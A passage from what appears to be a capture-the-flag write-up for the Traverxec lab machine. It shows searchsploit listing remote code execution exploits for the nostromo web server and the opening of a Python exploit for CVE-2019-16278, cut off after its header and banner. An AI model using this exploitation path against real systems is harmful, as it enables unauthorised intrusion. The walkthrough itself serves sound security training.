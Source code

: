 ## Shell as www-data

### Vulnerability Research

I'll use searchsploit to find exploits while using the name of the HTTP service which is nostromo, searchsploit shows three potential Nostromo vulnerabilities:

```shell
❯ searchsploit nostromo
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nostromo - Directory Traversal Remote Command Execution (Metasploit)                                                                                   | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                                                                                                                 | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution                                                                                   | linux/remote/35466.sh
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
❯ searchsploit -m multiple/remote/47837.py
  Exploit: nostromo 1.9.6 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47837
     Path: /usr/share/exploitdb/exploits/multiple/remote/47837.py
File Type: Python script, ASCII text executable

Copied to: /home/wixnic/htb/traverxec/47837.py
```

There’s a metasploit one, then a python script, and a shell script. The shell script is an exploit for an older version so we'll ignore that one. Let's start with the python exploit first.

Python Code:
```python
# Exploit Title: nostromo 1.9.6 - Remote Code Execution
# Date: 2019-12-31
# Exploit Author: Kr0ff
# Vendor Homepage:
# Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
# Version: 1.9.6
# Tested on: Debian
# CVE : CVE-2019-16278

# This line needs to commented or removed
#cve2019_16278.py

#!/usr/bin/env python

import sys
import socket

art = """

                                        _____-2019-16278
        _____  _______    ______   _____\    \
   _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
```